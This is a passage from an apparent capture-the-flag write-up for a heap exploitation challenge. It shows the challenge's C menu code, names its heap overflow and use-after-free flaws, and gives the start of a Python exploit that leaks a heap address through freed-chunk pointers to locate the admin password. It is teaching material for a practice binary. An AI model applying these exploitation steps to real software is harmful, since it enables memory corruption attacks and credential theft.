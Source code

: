 ```cpp=
    printf("**** User Management System ****\n");
    add_admin();

    while (power)
    {
        power--;
        printf("1. add_user\n"
               "2. edit_data\n"
               "3. del_user\n"
               "4. show_users\n"
               "5. bye\n"
               "> ");
        read(0, opt, 2);

        switch (opt[0]) {
        case '1': add_user(); break;
        case '2': edit_data(); break;
        case '3': del_user(); break;
        case '4': show_users(); break;
        case '5': exit(0);
        }
    }
    printf("No... no power..., b..ye...\n");
    
    return 0;
}
```
:::
### Something wrong
* Heap overflow
* Used after free(UAF)
* Note that, flag 1 is admin password, flag 2 is at `/home/chal/`


## Exploit
### Hard solution - leak heap base address + heap overflow
If we can use heap overflow to overlap the `user k`'s `*data`, then we can let it point to admin's password and use `show_users()` to print it out
1. leak admin password address
It's very straight forward, if we delete two user, user 2 first and then user 1, at the same time, the `fd` of user 1 will point to the data of user 2. Then we can use `show_user()` to leak the address and try to find `admin_pass_addr` by minus offset
    ```python!
    edit_data(0, 0x8, b'a')    # Must add this line to use heap overflow
    add_user(1, b'a'*8, b'aaaa')
    edit_data(1, 0x20, b'a')
    add_user(2, b'b'*8, b'bbbb')
    del_user(2)
    del_user(1)
    show_user()
    r.recvuntil(b'[1] ')
    r.recvuntil(b'data: ')
    admin_pass_addr = u64(r.recv(6).ljust(8, b'\x00')) - 0xa0
    print(hex(admin_pass_addr))
    ```
    ![](https://imgur.com/ZicILFr.png)
